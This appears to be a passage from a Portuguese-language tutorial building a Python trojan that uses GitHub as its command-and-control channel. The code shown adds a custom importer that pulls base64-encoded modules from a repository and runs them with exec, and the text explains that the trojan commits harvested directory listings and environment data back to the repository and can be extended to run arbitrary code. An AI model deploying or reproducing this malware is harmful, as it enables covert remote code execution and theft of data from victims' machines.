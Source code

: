 ```py
            time.sleep(random.randint(30*60, 30*60*60))
            
class GitImporter:
    def __init__(self):
        self.current_module_code = ""
        
    def find_module(self, name, path=None):
        print("[*] Tentando recuperar %s" % name)
        self.repo = github_connect()
        
        new_library = get_file_contents('modules', f'{name}.py', self.repo)
        if new_library is not None:
            self.current_module_code = base64.b64decode(new_library)
            return self
        
    def load_module(self, name):
        spec = importlib.util.spec_from_loader(name, loader=None, 
                                               origin=self.repo.git_url)
        new_module = importlib.util.module_from_spec(spec)
        exec(self.current_module_code, new_module.__dict__)
        sys.modules[spec.name] = new_module
        return new_module
    
if __name__ == '__main__':
    sys.meta_path.append(GitImporter())
    trojan = Trojan('teste')
    trojan.run()
```

Ao executá-lo, se tudo correr bem, teremos alguns commits no repositório selecionado do Github da forma `2025-01-06T18:25:32.012084.data` na pasta `data/ID`. Note que ele executará as tasks `dirlister` e `environment` e colocará os dados de forma encriptada em base64:

No que representaria o `dirlister.py`:
`IlsnZ2l0X3Ryb2phbi5weScsICd0b2tlbi50eHQnXSI=` = `"['git_trojan.py', 'token.txt']"`

Você pode customizar para ele executar quaisquer outros códigos abitrários em Python sem mesmo mexer na execução do arquivo, devido às rotinas de leitura. 
